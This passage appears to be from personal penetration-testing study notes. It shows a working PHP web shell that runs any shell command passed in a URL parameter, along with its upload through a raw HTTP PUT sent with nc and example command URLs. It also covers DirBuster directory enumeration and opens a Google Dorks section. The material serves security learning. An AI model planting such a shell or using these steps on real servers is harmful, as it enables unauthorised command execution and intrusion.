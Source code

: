#### PHP Shell 🐘

- PHP Shell code for arbitrary commands
- This is less common for website, **BUT** still very common for IOT devices

##### payload.php

```shell
wc -m payload.php
# 140 payload.php
```

- HTTP request

```shell
nc www.example.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 140


<?php
if (isset($_GET['cmd']))
{
  $cmd = $_GET['cmd'];
  echo '<pre>';
  $result = shell_exec($cmd);
  echo $result;
  echo '</pre>';
}
?>
```

##### Commands to Webshell

```shell
www.example.site/payload.php?cmd=ls
www.example.site/payload.php?cmd=echo 'hi there' > /tmp/hotdog
```

#### Dirs/Files Enumeration 📂

- 2 methods to discern possible files:
  - brute-force (very hard and lame) ; on the order of millions/billions
  - dictionary attack of common file names ; maybe only a few thousands
- [DirBuster](https://www.kali.org/tools/dirbuster/)

```shell
# Run in background w/ 100 threads and save report to file
dirbuster -t 100 -l /usr/share/dirbuster/wordlists/directory-list*medium.txt -H -r dirbuster_report.txt -u <URL>
```

## 4.5 Google Dorks 🔎

Using search engines to search for tasty resources or login areas.
